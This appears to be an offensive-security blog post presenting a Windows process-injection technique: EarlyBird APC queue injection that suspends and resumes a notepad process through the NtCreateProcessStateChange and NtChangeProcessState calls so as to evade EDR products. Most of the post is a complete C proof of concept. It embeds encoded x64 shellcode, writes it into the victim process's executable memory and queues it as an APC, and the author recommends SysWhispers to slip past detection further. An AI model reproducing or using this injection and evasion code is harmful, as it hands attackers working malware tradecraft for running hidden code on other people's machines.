 ```yaml
---
layout: post
title: EarlyBird APC Queue Injection With a ProcessStateChange Twist
tags: []
---
```




Relatively recently, Yarden Shafir made a blog post about a new way to evade the EDRs for process injection. In the blog post, Yarden mentions that there are new added features in the recent Windows 10 build(Insider) and Windows 11 as well. Some of them are NtCreateProcessStateChange/ NtCreateThreadStateChange and NtChangeProcessState/NtChangeThreadState.

These WINAPI calls were added to resolve the issue of what happens if a process suspends a thread and then terminates it before resuming it. To quote Yarden:

Unless some other part of the system realizes what happened, the thread will remain suspended forever and will never resume its execution. To solve that, this new feature allows suspending and resuming threads and processes through the new object types, which will keep track of the suspension state of the threads or processes. That way, when the object is destroyed (for example, when the process that created it is terminated), the system will reset the state of the target process or thread by suspending or resuming it as needed.

Yarden has made a PoC at the bottom of the blog potentially continuing a suspended thread, due to these aforementioned new WINAPI calls, a suspended application can now resume or reset. By using DuplicateHandle and getting the second notepad a handle to the first suspended notepad, the suspended notepad remains as is until the second notepad closes and resumes the first notepad without using ResumeThread.


Evading common process injection patterns for WINAPI calls can definitely trick some EDRs. Although I took a different approach in my PoC and followed the pattern of EarlyBird APC Queue Injection and instead of creating a suspended process, allocate shellcode and ResumeThread, I created a process, suspended it with NtCreateProcessStateChange, allocated the shellcode and then changed the suspended state back with NtChangeProcessState to continue the primary thread.

Obviously the below code will be detected due to the shellcode, VirtualAlloc, WriteProcessMemory, QueueUserAPC but SysWhispers can help you replace that will the ntdll's WINAPI calls for better results.

PoC:

[![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

<pre>
  <code class="C">
#include &lt;Windows.h>
#include &lt;stdio.h>
#include &lt;winternl.h>

typedef NTSTATUS(__fastcall* NtCreateProcessStateChange)(OUT PHANDLE StateChangeHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN HANDLE ProcessHandle, IN INT Unknown);
typedef NTSTATUS(__fastcall* NtChangeProcessState)(IN HANDLE StateChangeHandle, IN HANDLE ProcessHandle, IN ULONG Action, IN ULONG64 Unknown1, IN ULONG64 Unknown2, IN ULONG64 Unknown3);

void main()
{
    HANDLE stateChangeHandle;
    PROCESS_INFORMATION procInfo;
    PROCESS_INFORMATION procInfo2;
    STARTUPINFO startInfo;
    BOOL result;
    NTSTATUS status;
    NtCreateProcessStateChange	pNtCreateProcessStateChange;
    NtChangeProcessState        pNtChangeProcessState;
    HMODULE                     hNtdll;
    unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x4f\x6c\xaf\x32\x7e\xe4\xec\x88\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb3\x24\x2c\xd6\x8e\x0c\x2c\x88\x4f\x6c\xee\x63\x3f\xb4\xbe\xd9\x19\x24\x9e\xe0\x1b\xac\x67\xda\x2f\x24\x24\x60\x66\xac\x67\xda\x6f\x24\x24\x40\x2e\xac\xe3\x3f\x05\x26\xe2\x03\xb7\xac\xdd\x48\xe3\x50\xce\x4e\x7c\xc8\xcc\xc9\x8e\xa5\xa2\x73\x7f\x25\x0e\x65\x1d\x2d\xfe\x7a\xf5\xb6\xcc\x03\x0d\x50\xe7\x33\xae\x6f\x6c\x00\x4f\x6c\xaf\x7a\xfb\x24\x98\xef\x07\x6d\x7f\x62\xf5\xac\xf4\xcc\xc4\x2c\x8f\x7b\x7f\x34\x0f\xde\x07\x93\x66\x73\xf5\xd0\x64\xc0\x4e\xba\xe2\x03\xb7\xac\xdd\x48\xe3\x2d\x6e\xfb\x73\xa5\xed\x49\x77\x8c\xda\xc3\x32\xe7\xa0\xac\x47\x29\x96\xe3\x0b\x3c\xb4\xcc\xc4\x2c\x8b\x7b\x7f\x34\x8a\xc9\xc4\x60\xe7\x76\xf5\xa4\xf0\xc1\x4e\xbc\xee\xb9\x7a\x6c\xa4\x89\x9f\x2d\xf7\x73\x26\xba\xb5\xd2\x0e\x34\xee\x6b\x3f\xbe\xa4\x0b\xa3\x4c\xee\x60\x81\x04\xb4\xc9\x16\x36\xe7\xb9\x6c\x0d\xbb\x77\xb0\x93\xf2\x7a\xc4\xe5\xec\x88\x4f\x6c\xaf\x32\x7e\xac\x61\x05\x4e\x6d\xaf\x32\x3f\x5e\xdd\x03\x20\xeb\x50\xe7\xc5\x14\x59\x2a\x19\x2d\x15\x94\xeb\x59\x71\x77\x9a\x24\x2c\xf6\x56\xd8\xea\xf4\x45\xec\x54\xd2\x0b\xe1\x57\xcf\x5c\x1e\xc0\x58\x7e\xbd\xad\x01\x95\x93\x7a\x51\x1f\x88\x8f\xa6\x2a\x14\xca\x32\x7e\xe4\xec\x88";
    SIZE_T shellSize = sizeof(buf);
    stateChangeHandle = nullptr;
    ZeroMemory(&startInfo, sizeof(startInfo));
    startInfo.cb = sizeof(startInfo);
    result = CreateProcess(L"C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&startInfo,&procInfo);
    HANDLE victimProcess = procInfo.hProcess;
    HANDLE threadHandle = procInfo.hThread;
    hNtdll = GetModuleHandle(L"ntdll.dll");
    pNtCreateProcessStateChange = (NtCreateProcessStateChange)GetProcAddress(hNtdll, "NtCreateProcessStateChange");
    status = pNtCreateProcessStateChange(&stateChangeHandle, MAXIMUM_ALLOWED, NULL, procInfo.hProcess, 0);
    pNtChangeProcessState = (NtChangeProcessState)GetProcAddress(hNtdll, "NtChangeProcessState");
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 0, NULL, 0, 0);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 1, NULL, 0, 0);
}
  </code>
</pre>

Sources:



EarlyBird APC Queue Injection - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection


NtCreateProcessChangeState Blog Post - https://windows-internals.com/thread-and-process-state-change/


NtCreateProcessChangeState gist example - https://gist.github.com/DownWithUp/80a3b7b6a198788e79d8b508463e9384
